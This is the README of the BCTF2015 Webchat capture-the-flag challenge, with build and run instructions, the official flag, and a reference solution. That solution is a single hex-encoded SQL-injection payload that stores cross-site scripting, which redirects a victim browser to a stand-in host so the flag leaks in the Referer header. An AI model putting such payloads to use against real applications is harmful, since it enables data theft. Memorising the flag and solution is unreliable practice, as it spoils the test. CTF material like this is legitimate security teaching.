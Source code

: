 # BCTF2015-Webchat
The official implementation of BCTF2015 Webchat Challenge.

## Runtime Dependencies:

1. Erlang/OTP 17
  - 3rd-party libraries: cowboy, cowlib, ranch, emysql
2. xorg-server-xvfb
3. Any browser. (firefox is the default setting, as chrome/chromium doesn't work well in container)
4. MySQL or any other MySQL-compatible database.

## How to build?

Just type `make` and it will download dependencies, and then compile.

## How to run?

```
$ _rel/webchat_release/bin/webchat_release start # background running
$ _rel/webchat_release/bin/webchat_release stop # stop a background running instance
$ _rel/webchat_release/bin/webchat_release foreground  # foreground running
$ _rel/webchat_release/bin/webchat_release console # foreground running with console
```

You can attach to a background running erlang VM using `$ _rel/webchat_release/bin/webchat_release attach` to get a console.


## Offical Flag

BCTF{xss_is_not_that_difficult_right}

## Reference Solution

Send a chat message:
```
'), (0x3C7363726970743E77696E646F772E6C6F636174696F6E3D22687474703A2F2F796F7572646F6D61696E2E636F6D2F6263746632303135223B3C2F7363726970743E), ('
```
which produces a XSS payload in the chatlog, and flag will be found in the HTTP header referer.
